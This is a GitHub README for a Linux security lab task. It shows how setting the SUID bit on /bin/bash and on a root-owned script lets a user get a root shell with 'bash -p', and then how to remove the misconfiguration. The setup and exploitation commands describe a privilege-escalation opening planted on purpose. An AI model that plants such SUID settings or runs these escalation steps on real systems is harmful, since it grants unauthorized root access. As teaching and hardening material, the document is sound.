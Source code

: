 # POC-TASKS
# 📌 Linux Security - Exploitation & Hardening (PoC)

This repository demonstrates **SUID misconfigurations** in Linux, including **exploitation and mitigation**.

---

## 🔹 **Task 4: SUID & Privilege Escalation**

This task demonstrates how **misconfigured SUID binaries** can be exploited for **privilege escalation** and how to **mitigate** such vulnerabilities.

---

## ✅ **Setup: Creating a Vulnerable SUID Environment**

### **1️⃣ Set SUID Bit on Bash (Dangerous!)**

```bash
# Grant SUID to Bash (Insecure!)
┌──(kali㉿kali)-[~]
└─$ sudo chmod u+s /bin/bash

# Verify SUID is set
┌──(kali㉿kali)-[~]
└─$ ls -l /bin/bash  
-rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### **2️⃣ Create a Root-Owned SUID Script**

```
# Create a root-owned script
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/root_script.sh

# Paste the following inside the Text editor (nano)
(#!/bin/bash
echo "Running as: $(whoami)"
id)
# Save & exit, then make it executable

# Set SUID permission on the script
┌──(kali㉿kali)-[~]
└─$ sudo chmod 4755 /root/root_script.sh

# Verify permissions
┌──(kali㉿kali)-[~]
└─$ sudo ls -l /root/root_script.sh     
-rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

### **3️⃣Exploitation: Gaining Root Access**

```
## Find SUID binaries
┌──(kali㉿kali)-[~]
└─$ find / -perm -4000 2>/dev/null
/usr/lib/chromium/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap .......

## Exploit SUID on Bash to Get Root Privileges
# Run Bash with SUID privilege
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p

# Verify root access
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p
bash-5.2# whoami
root

## Execute root owned script
bash-5.2# sudo /root/root_script.sh
Running as: root
uid=0(root) gid=0(root) groups=0(root)
```

### **4️⃣Mitigation: Fixing the Security Issues**
```
# Remove SUID from Bash
bash-5.2# sudo chmod -s /bin/bash

# Verify SUID is removed
bash-5.2# ls -l /bin/bash
-rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash

# Change ownership and restrict access
bash-5.2# sudo chown root:root /root/root_script.sh
bash-5.2# sudo chmod 700 /root/root_script.sh

# Verify permissions
bash-5.2# ls -l /root/root_script.sh
-rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh
```
### **📌 Task 4 - Summary**  

| **Step**              | **Action**                                         | **Command**                                  |
|----------------------|-------------------------------------------------|---------------------------------------------|
| 🔹 **Setup**          | Set the SUID bit on `/bin/bash`                   | `sudo chmod u+s /bin/bash` |
|                      | Create a script running with root privileges       | `echo -e '#!/bin/bash\necho "Running as: $(whoami)"' | sudo tee /root/root_script.sh` |
|                      | Set SUID permission on the script                  | `sudo chmod 4755 /root/root_script.sh` |
|                      | Verify permissions                                 | `ls -l /bin/bash /root/root_script.sh` |
| 🔹 **Exploitation**   | Find SUID binaries                                | `find / -perm -4000 2>/dev/null` |
|                      | Exploit SUID on Bash to get root                   | `/bin/bash -p` |
|                      | Verify root access                                 | `whoami` |
|                      | Execute the root-owned script                      | `/root/root_script.sh` |
| 🔹 **Mitigation**     | Remove SUID from Bash                             | `sudo chmod -s /bin/bash` |
|                      | Restrict script execution to root only            | `sudo chmod 700 /root/root_script.sh` |
|                      | Verify permissions after mitigation                | `ls -l /bin/bash /root/root_script.sh` |

***************************************************THE END********************************************************
